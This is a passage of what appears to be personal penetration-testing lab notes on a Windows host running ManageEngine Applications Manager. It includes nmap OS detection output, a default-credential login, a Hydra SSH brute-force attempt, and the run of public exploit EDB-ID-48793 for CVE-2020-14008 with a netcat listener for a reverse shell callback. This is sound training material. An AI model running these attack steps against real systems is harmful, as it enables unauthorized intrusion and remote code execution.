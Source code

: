 ## OS
```bash
sudo nmap $TARGET -O -oN scans/$NAME-nmap-os

# output
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 17:21 EDT
Nmap scan report for 192.168.103.96
Host is up (0.12s latency).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP|7 (87%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows XP SP2 (86%), Microsoft Windows 7 (85%)
No exact OS matches for host (test conditions non-ideal).

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.20 seconds
```

# Exploit
## Password Guessing
### Default Credentials
This worked.
```bash
# ManageEngine
# admin:admin
```

### Hydra
This did not work.
```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt -s 22222 ssh://192.168.103.96

# output
NSTR
```

## CVE-2020-14008
### EDB-ID-48793
This worked.
```bash
searchsploit manageengine application manager
mkdir edb-id-48793
cd edb-id-48793
searchsploit -m 48793
pyenv 3.9.5
pip install lxml
# https://linuxconfig.org/how-to-install-java-on-kali-linux
sudo apt install default-jdk
sudo nc -nvlp 443
python 48793.py http://192.168.102.96:40443 admin admin 192.168.49.102 443

# output
[*] Visiting page to retrieve initial cookies...
[*] Retrieving admin cookie...
[*] Getting base directory of ManageEngine...
[*] Found base directory: C:\Program Files\ManageEngine\AppManager14
```